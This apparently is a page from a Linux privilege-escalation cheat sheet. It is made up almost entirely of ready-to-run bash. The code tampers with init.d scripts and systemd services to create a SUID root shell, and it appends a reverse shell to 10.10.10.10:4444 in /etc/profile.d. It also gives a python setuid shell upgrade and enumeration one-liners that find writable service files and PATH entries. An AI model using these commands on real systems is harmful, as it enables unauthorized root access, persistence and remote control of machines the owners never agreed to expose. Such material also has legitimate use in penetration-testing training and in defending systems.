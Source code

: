 ### Script Modification Attack

```bash
# Backup original script (good practice)
cp /etc/init.d/vulnerable_script /tmp/backup

# Method 1: Replace or edit startup script directly
cat > /etc/init.d/vulnerable_script << EOF
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
# Original script follows
$(cat /tmp/backup)
EOF

# Make sure it's executable
chmod +x /etc/init.d/vulnerable_script

# Method 2: Add reverse shell to system-wide profile
echo 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1' >> /etc/profile.d/shell.sh
chmod +x /etc/profile.d/shell.sh

# Method 3: Create a malicious systemd service
cat > /etc/systemd/system/privesc.service << EOF
[Unit]
Description=Privilege Escalation Service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'
Restart=no

[Install]
WantedBy=multi-user.target
EOF

# Enable and start the malicious service if you have sudo rights
sudo systemctl enable privesc.service
sudo systemctl start privesc.service

#Post running rootbash to upgrade our shell fully
python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")' #You can also use python3 with the same command if its present instead
```

### One-liners to Identify Service Vulnerabilities

```bash
# Find world-writable service configuration files
find /etc/systemd/system /lib/systemd/system -writable 2>/dev/null

# Find services that execute writable scripts
grep -r "ExecStart=" /etc/systemd/system /lib/systemd/system 2>/dev/null | grep -v "^#" | awk '{print $2}' | xargs -I{} find {} -writable 2>/dev/null

# Check for processes running as root with open file descriptors to writable files
lsof -u root | grep REG | grep -v "mem" | grep -v "txt" | grep -v "cwd" | grep -v 'kernel' | awk '{print $9}' | xargs -I{} ls -la {} 2>/dev/null | grep -v "^l" | grep "^.rw"

# Find scripts in PATH that are executed by root but writable by you
for p in $(echo $PATH | tr ":" " "); do find $p -writable -type f 2>/dev/null; done
```

